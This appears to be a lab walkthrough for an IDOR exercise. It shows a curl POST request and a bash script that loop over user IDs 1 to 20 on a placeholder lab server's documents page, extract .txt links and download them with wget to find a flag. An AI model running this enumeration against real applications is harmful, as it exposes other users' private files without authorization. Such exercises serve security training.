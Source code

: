 # Mass IDOR Enumeration

#### Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

If you followed along the section, you are probably trying to get the `uid` parameter from the URL.

<figure><img src="../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

The `uid` parameter is actually been sent in the POST Request. You can confirm this in the inspect element or intercept the Request with Burp Suite.

Since we have the POST data lets try to use curl with the following command to get the html code.

{% code overflow="wrap" %}
```bash
curl -s  'http://SERVER_IP:SERVER_PORT/documents.php' --data-raw 'uid=1'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

We get the filenames in the HTML. Now we need to found a way to automate this process and get only .txt matches:

{% code overflow="wrap" %}
```bash
#!/bin/bash

url="http://SERVER_IP:SERVER_PORT"

for i in {1..20}; do
        for link in $(curl -s "$url/documents.php" --data-raw "uid=$i" | grep -oP "\/documents\/[^'\" ]*?\.txt"); do
        	wget -q $url/$link
        done
done

```
{% endcode %}

Here is a breakdown for the script:

* **Define URL**:
  * Set the variable `url` to `http://SERVER_IP:SERVER_PORT`.
* **Outer Loop**:
  * Iterate `i` from 1 to 20.
* **Inner Loop**:
  * Use `curl` to send a POST request to `documents.php` with `uid=$i`:
    * `-s` option makes `curl` silent (no progress or error messages).
  * Pipe the response to `grep` to find links to `.txt` files:
    * **Regex Used**: `\/documents\/[^'\" ]*?\.txt`
      * `\/documents\/`: Matches the string `/documents/`.
      * `[^'\" ]*?`: Matches any characters that are not a single quote, double quote, or space (non-greedy).
      * `\.txt`: Matches the string `.txt` at the end.
* **Download Files**:
  * For each extracted link, use `wget` to download the file from the constructed URL (`$url/$link`):
    * `-q` option makes `wget` quiet (no output).
* **End of Loops**:
  * Close both the inner and outer loops.



<figure><img src="../../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

And we got a match! When we open this .txt file we can see indeed that it is our flag!
